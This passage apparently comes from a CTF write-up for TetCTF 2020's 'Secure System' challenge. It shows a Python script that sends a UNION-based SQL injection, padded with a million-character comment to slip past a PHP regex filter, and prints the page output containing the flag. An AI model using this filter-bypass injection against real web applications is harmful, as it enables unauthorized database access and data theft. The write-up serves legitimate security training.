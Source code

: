Now we can print flag without knowing column_name (That's the beauty if we
have Union)

```python  
def union_bypass():  
	#payload = 'union/*'+'a'*1000000+'*/select 1,2,3-- -'  
	payload='union/*'+'a'*1000000+'*/select 1,(select b from (select 1 as a, 2 as b union/*'+'a'*1000000+'*/select * from Th1z_Fack1n_Fl4444g_Tabl3) bbb limit 1,1),3-- -'  
	r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'-2 {}'.format(payload)},proxies={'http':'http://127.0.0.1:8080'})  
	print r.text  
```

Outcome is

```css  
root@MrR3boot:~# python do.py  
1. Dump Database Name  
2. Find Table Names  
3. Union Bypass (PHP & RegEx Bug)  
> 3

  
  
  
  
<center>  
Security Check!!! Please enter your ID to prove who are you !!!:  
<form action="index.php" method="POST">  
       <input name="id" value="" />  
  
       <input type="submit" value="Submit" />  
</form>  
</center>

Hello TetCTF{0wl_d0nkey_means_Liarrrrrrr}  
```  

Original writeup
(https://github.com/MrR3boot/CTF/tree/master/TetCTF-2020/Secure-System).